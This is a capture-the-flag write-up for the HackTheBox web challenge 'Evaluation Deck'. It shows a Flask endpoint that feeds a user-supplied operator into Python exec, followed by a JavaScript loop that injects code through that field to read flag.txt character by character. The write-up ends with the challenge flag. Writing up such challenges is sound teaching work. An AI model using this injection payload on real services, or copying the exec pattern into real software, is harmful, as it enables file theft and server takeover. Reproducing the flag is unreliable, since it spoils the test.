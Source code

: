 # Evaluation Deck

>  A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Solution
We are given the source code for the website, after reading some of the code, I found an API that features an interesting method that supposedly calculates the health of the ghost (in the website) from the given parameters.

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```
However, they are using Python's `compile` and `exec` function, which can be very dangerous when executed from unsanitized user input.

We can control all the parameters, but `current_health` and `attack_power` are converted to int and that limits us to passing only numbers.

That leaves us with `operator` that needs to be added to two numbers. So I tried to find a way to convert the flag into a number which can then be converted back  into the flag itself.

I ended up converting the flag into `ASCII` unicode using the following function :

```python
ord(character)
```

So the final payload to be sent as a POST reqeust to api:

```javascript
let str = "";
for (let i = 0; i < 50; i++) {
  fetch("[IP]/api/get_health", {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      current_health: "0",
      attack_power: "0",
      operator: `+ ord(open("../../../flag.txt").read()[${i}]);`,
    }),
  })
    .then((response) => response.json())
    .then((data) => {
      str += data.message + " ";
    });
}
```
Then I got the result in ascii unicode, so I converted it back to characters using the following function :
```python
chr(ascii unicode)
```
The Flag:
```
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```